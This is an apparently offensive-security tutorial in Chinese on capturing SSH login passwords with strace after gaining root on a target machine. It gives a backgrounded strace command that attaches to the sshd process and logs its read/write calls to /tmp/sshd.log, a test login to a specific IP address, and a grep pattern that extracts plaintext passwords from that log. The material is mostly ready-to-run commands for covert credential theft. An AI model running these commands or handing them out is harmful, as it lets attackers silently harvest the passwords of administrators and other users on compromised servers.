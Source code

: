 # Strace抓取ssh密码

> strace是一个可用于诊断、调试和教学的Linux用户空间跟踪器。我们用它来监控用户空间进程和内核的交互，比如系统调用、信号传递、进程状态变更等。
>
> 在后面抓取用户密码的时候，我们会使用这个软件来监控用户的ssh登录操作。

## 跟踪监听程序

获取到目标root权限后，直接在终端执行如下命令，该命令会监听sshd进程，并将登录过程及信息记录到/tmp/sshd.log文件中

```bash
(strace -f -F -p `ps aux|grep "sshd -D"|grep -v grep|awk {'print $2'}` -t -e trace=read,write -s 32 2> /tmp/sshd.log &)
```

接着模拟管理员ssh登录。输入正确的密码

```bash
ssh root@120.46.62.62
```

## 筛选登录密码

如图所示。

```
grep -E 'read\(6, ".+\\0\\0\\0\\.+"' /tmp/sshd.log
```

![image-20240717135239224](./Strace抓取ssh密码.assets/image-20240717135239224.png)